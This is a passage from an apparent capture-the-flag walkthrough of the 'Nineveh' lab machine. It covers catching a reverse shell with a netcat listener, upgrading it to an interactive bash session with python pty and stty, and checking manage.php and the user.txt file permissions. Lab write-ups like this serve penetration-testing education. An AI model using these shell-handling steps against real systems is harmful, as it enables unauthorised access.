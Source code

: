 Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Send the request. We have a shell!

![](../images/max/798/1*mcofvN8OWNirFroW5SOJig.png)

Let’s upgrade it to a partially interactive bash shell.

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

‌To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

‌Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Before I look at the user.txt flag, let’s view the content of manage.php.

![](../images/max/402/1*FKX8ZCQLjgKM8OOUnlZbdw.png)

As we suspected, it’s doing a check on the string “ninevehNotes” when running a file.

Now let’s view the permission of the user.txt file.

```text
www-data@nineveh:/var/www/html/department$ ls -la /home/amrois/         
total 32
drwxr-xr-x 4 amrois amrois 4096 Jul  3  2017 .
drwxr-xr-x 3 root   root   4096 Jul  2  2017 ..
-rw------- 1 amrois amrois    0 Jul  2  2017 .bash_history
-rw-r--r-- 1 amrois amrois  220 Jul  2  2017 .bash_logout
-rw-r--r-- 1 amrois amrois 3765 Jul  2  2017 .bashrc
drwx------ 2 amrois amrois 4096 Jul  3  2017 .cache
-rw-r--r-- 1 amrois amrois  655 Jul  2  2017 .profile
drwxr-xr-x 2 amrois amrois 4096 Jul  2  2017 .ssh
-rw------- 1 amrois amrois   33 Jul  2  2017 user.txt
```
